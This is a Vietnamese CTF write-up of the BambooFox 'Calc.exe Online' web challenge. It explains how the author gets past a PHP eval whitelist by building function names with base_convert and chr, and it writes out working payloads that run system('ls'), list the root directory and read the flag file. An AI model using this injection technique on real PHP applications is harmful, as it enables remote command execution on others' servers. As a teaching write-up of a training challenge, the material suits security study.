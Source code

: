 # write up

Chall: http://chall.ctf.bamboofox.tw:13377/

Source: https://github.com/rimc2t/write-up-cho-vui/blob/main/BambooFox-CTF/%5BWeb%5D%20Calc.exe%20Online/source.php

Cùng nhìn tổng quan đề bài 1 xíu nhé!!!!

## Overview

![hinh1](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139404612_1360916280927703_9149939801016827697_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=ve9-OBZQPt4AX9JueT5&_nc_ht=scontent.fsgn2-6.fna&oh=0f8e721f4bf481312e71ad7a610e3cb4&oe=6028F116)

Ctr+U coi đi kiếm source xíu. Ồ cho file source nè:

![hinh3](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/138395872_1360917480927583_7950565622394537985_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HMV2LUg9jkUAX8eqRtb&_nc_ht=scontent.fsgn2-6.fna&oh=37fd2f612f637ea1f216aa900d2adc8c&oe=602818A5)

![hinh4](https://scontent.fsgn2-1.fna.fbcdn.net/v/t1.0-9/139774578_1360918004260864_8841010992383322256_o.png?_nc_cat=105&ccb=2&_nc_sid=730e14&_nc_ohc=uMDLxnc9iB8AX-A8RBK&_nc_ht=scontent.fsgn2-1.fna&oh=7adcceb4a7de133adbc823381609fe69&oe=6027AA47)

Nào như mọi lần tui bắt đầu đi đọc code và kết luận vài dòng:

- Đây là code php
- Có 2 cái function
- Param của mình truyền vào là đi qua hàm **safe_eval**
- Trong **safe_eval**, nó đưa param của mình cho **is_safe** kiểm tra
- Trong **is_safe**, nó bắt đầu chạy code các kiểu -> tóm tắt lại rằng: Chỉ được dùng các hàm trong toàn học, và toán tử +-\*/
- Sau khi **is_safe** true sẽ cho chúng ta thực thi (eval), ngược lại sẽ xuất ra màn hình 1 chuỗi.

> Vậy giải pháp rút ra là phải inject vào 1 đoạn code sao cho hàm **is_safe** trả về true rồi tạo thành 1 command có nghĩa để thực thi được đến server server.

## SEEKING
Mình là một con gà mờ về ctf. Nên khi đọc vào trong đầu nghĩ là *"Ủa? sao được ta? hàm của toán để nó thành command có nghĩa kiểu gì?"*. Quyết định ăn miếng bánh thư giãn cho đầu óc suy nghĩ ngoài cái hộp. Ngẫm nghĩ lại lúc trước có làm (đọc write up làm theo) một số bài web thì các bài liên quan đến **eval()** thì exploit trực tiếp vô luôn, còn cái này có *filter* thì thường dùng những kỹ thuật xor hay bằng cách nào đấy biến số thành chữ.

>Thế là mình quyết định đi tìm các hàm biến số thành chữ hêh

Lúc đầu đi tìm thì mình thấy 1 vài hàm như **dechex** **decoct** thì mình dzui vì thấy có khả năng, mà nghĩ lại: *"Ủa :)) phải có đủ bảng chữ cái chứ, hong ổn rồi"*
Một hồi mình nhìn kỹ xíu nữa thì thấy 1 hàm **base_convert**, hehe nghe xịn mình liền lên w3school tìm hướng dẫn sử dụng (tại w3 có chỗ debug luôn nên mình ưu tiên).

![hinh5](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139701687_1360932737592724_2820394334159202042_n.png?_nc_cat=100&ccb=2&_nc_sid=730e14&_nc_ohc=HND36JbcqNYAX_Rhwq7&_nc_ht=scontent.fsgn2-6.fna&oh=ddfb680eaf96e04f88bb9ba9b463eed4&oe=6027B6DF)

![hinh6](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139477082_1360935034259161_5270276016675269189_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=yYgHu-x5GasAX9knpwh&_nc_ht=scontent.fsgn2-3.fna&oh=98630cfbf2d6a09f6fb8def9ee4edaf9&oe=60291091)

Thử chuyển hệ 36 sang hệ 10 luôn nè:

![hinh7](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139718552_1360935947592403_3256650028083666150_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=mLDYAutpJscAX_No6zB&_nc_ht=scontent.fsgn2-3.fna&oh=93b0061201edcfdda66df394016cf1c4&oe=6029D635)

Hehe boizzz, ngonnnnn

>Sau khi đã tìm được hồ cá, lượm được cần câu. Giờ phải dùng kỹ năng đi câu hoyyyyyyyyy

## INJECTION
Quay lại với hình 1 nhé, coi lại chỗ để nhập phép tính. Trong đầu phải ghi nhớ rằng: *"Bây giờ phải dùng **base_convert** để biến những con số thành 1 command có nghĩa rồi bỏ vô payload này nhaaaa"*

### system(ls)

>system():					base_convert(1751504350,10,36)()
>ls:						    base_convert(784,10,36)
>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36))**
Sau đó sẽ trả về kết quả:

![hinh8](https://scontent.fsgn2-3.fna.fbcdn.net/v/t1.0-9/139471146_1360942944258370_7846989612733427119_n.png?_nc_cat=106&ccb=2&_nc_sid=730e14&_nc_ohc=x7CD47HUc1kAX85inpR&_nc_ht=scontent.fsgn2-3.fna&oh=d451023b8209c672721204c1e1177bbd&oe=6026CED9)

Ò ở đây chỉ có index chứ hong có flag :(
Mình đi ra thư mục gốc xem thử có flag ngoài đó hong

### system(ls /)
Lúc này có cái khó khăn là có khoảng trắng và dấu '/'. hmmmmm? làm shaooooo?
Mình tìm mọi cách và được chỉ dẫn đến sử dụng **ord** để lấy mã ascii 1 chữ và **chr** để đổi ascii ra ký tự. Việc mình cần làm là gọi hàm **chr** thông qua hàm **base_convert** và số (số này là đổi chuỗi "chr" từ base-36 sang base-10). Tiếp đó dùng các dấu '.' để nối các hàm lại với nhau.
>system():					base_convert(1751504350,10,36)()
>ls:						    base_convert(784,10,36)
>space:             base_convert(16191,10,36)(32)
>/:                 base_convert(16191,10,36)(47)
>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(784,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47))**
Nhận ngay kết quả: 

![hinh9](https://scontent.fsgn2-4.fna.fbcdn.net/v/t1.0-9/137328100_1360948444257820_2551682331755669394_n.png?_nc_cat=101&ccb=2&_nc_sid=730e14&_nc_ohc=LNzI_tUCEPsAX9gLo1d&_nc_ht=scontent.fsgn2-4.fna&oh=113d5590d5f2fa6155970803f6328907&oe=60294521)

Á à thì ra flag nằm ngày đây: **flag_a2647e5eb8e9e767fe298aa012a49b50**
Giờ thì mình mở ra xem hoyyyyy

### system(cat /flag_a2647e5eb8e9e767fe298aa012a49b50)
>system():					                   base_convert(1751504350,10,36)()
>cat:						                      base_convert(15941,10,36)
>space:						                    .base_convert(16191,10,36)(32)
>/:						                        .base_convert(16191,10,36)(47)
>flag:					                    	.base_convert(727432,10,36)
>_:				                         		.base_convert(16191,10,36)(95)
>a2647e5eb8e9e767fe298aa012a49b50):		.base_convert(788365066082,10,36)
>						                         	.base_convert(880282369231,10,36)
>						                         	.base_convert(1206073849608,10,36)
>					                        		.base_convert(83329543332,10,36)

Đoạn nào chữ thôi thì mình chỉ cnầ dùng **base_convert** còn đoạn nào có ký tự đặc biệt thì mình kết hợp với **chr** (16191 base36) nữa nhé!
Ở chuỗi chữ và số dài loằng ngoằng kia ban đầu mình chỉ dùng 1 lần **base_convert** nhưng mà nó bị tràn số ra kết quả hong chính xác nên mình chia thành 4 đoạn.
Giờ chỉ cần ghép lại tất cả để có payload chính xác:

>>**PAYLOAD: base_convert(1751504350,10,36)(base_convert(15941,10,36).base_convert(16191,10,36)(32).base_convert(16191,10,36)(47).base_convert(727432,10,36).base_convert(16191,10,36)(95).base_convert(788365066082,10,36).base_convert(880282369231,10,36).base_convert(1206073849608,10,36).base_convert(83329543332,10,36)) **

Hơi dài nhưng chỉ 405chars vẫn thỏa < 1024 của đề bài. Cuối cùng nhận được kết quả:

![hinh10](https://scontent.fsgn2-6.fna.fbcdn.net/v/t1.0-9/139449877_1360956844256980_5107937802172987774_n.png?_nc_cat=110&ccb=2&_nc_sid=730e14&_nc_ohc=c2LKQLlWJnwAX8XJqRI&_nc_ht=scontent.fsgn2-6.fna&oh=652d2a0cf660532758b0dfc732742e23&oe=60277931)


***Trên đây là tất cả write-up của mình về bài "Calc.exe Onl", trình còn kém nên làm còn mơ hồ, diễn giải có thể màu mè hoặc không đúng. Mong bạn đọc có thể đóng góp ý kiến <3***
